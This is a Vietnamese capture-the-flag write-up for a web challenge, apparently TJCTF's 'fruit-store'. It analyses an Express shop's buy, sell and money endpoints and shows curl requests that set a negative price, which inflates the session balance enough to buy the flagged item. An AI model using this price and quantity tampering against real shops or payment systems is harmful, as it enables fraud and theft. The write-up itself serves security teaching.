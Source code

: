 ```js
    }
});

app.post('/api/v1/money', (req, res) => {
    if (req.session.admin) {
        req.session.money += req.body.money;
        res.send('Money added');
    } else {
        res.status(403).send('Not admin');
    }
});

app.listen(3000, () => {
    console.log('Listening on port 3000');
});

```

- Phân tích source: ta thấy có 3 phần chính `/api/v1/sell`, `/api/v1/buy` và `/api/v1/money`, nhiệm vụ có vẻ ta phải mua được grass tuy nhiên giá lại cao hơn số tiền hiện có nên có vẻ ta phải thay đổi số tiền hiện có, ta có thể tăng tiền trong phần `/api/v1/money` tuy nhiên chỉ có admin mới làm được, `/api/v1/buy` có chức năng mua các vật phẩm, ta

```js
    if (fruits[fruit].quantity >= quantity) {
            if (req.session.money >= fruits[fruit].price * quantity) {
                fruits[fruit].quantity -= quantity;
                req.session.money -= fruits[fruit].price * quantity;
                res.json(fruits[fruit]);
            } else {
                res.status(402).send('Not enough money');
            }
        } else {
            res.status(451).send('Not enough fruit');
        }
    });
```

Giá tiền của loại trái cây sẽ bắng giá nhân với số lượng, và số lượng trái cây là số số trái cây trừ số lượng nhưng nếu số lượng là âm thì nó sẽ thành phép cộng, tương tự thế ta sẽ cộng thêm tiền cho `req.session.money` nếu `fruits[fruit].price * quantity` là số âm hay `quantity` là số âm

- Tiến hành: ta có thể dùng curl để gửi request:
  - `curl -X POST 'https://fruit-store-16ac1ecab524d650.tjc.tf/api/v1/sell' -H 'Content-Type: application/json' -H 'Cookie: connect.sid=s%3AQ-jvlbKwnUCNiMsiK09bLo7BcCqHuhey.rTsHWm1SpJX39O9itN%2Fjd6vZvJ0FsRHWdn86gKJrfzk' -d '{"banana": {"price":-10000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000}}'`
màn hinh sẽ hiện ra Sell successful, nghĩa là ta đã bán thành công.
  - `curl -X POST 'https://fruit-store-16ac1ecab524d650.tjc.tf/api/v1/buy' -H 'Content-Type: application/json' -H 'Cookie: connect.sid=s%3AQ-jvlbKwnUCNiMsiK09bLo7BcCqHuhey.rTsHWm1SpJX39O9itN%2Fjd6vZvJ0FsRHWdn86gKJrfzk' -d '{"fruit":"banana","quantity":1}`
 Ta sẽ có kết quả:`{"name":"banana","price":-1e+100,"description":"banannananananannana","quantity":4}`
  - `curl -X POST 'https://fruit-store-16ac1ecab524d650.tjc.tf/api/v1/buy' -H 'Content-Type: application/json' -H 'Cookie: connect.sid=s%3AQ-jvlbKwnUCNiMsiK09bLo7BcCqHuhey.rTsHWm1SpJX39O9itN%2Fjd6vZvJ0FsRHWdn86gKJrfzk' -d '{"fruit":"grass","quantity":1}'`
Màn hình hiện ra và được flag:
`{"name":"grass","price":2.5e+25,"description":"tjctf{h4v3_y0u_ev3r_tri3d_gr4s5_j3l1y_d4ebd9}","quantity":0}`
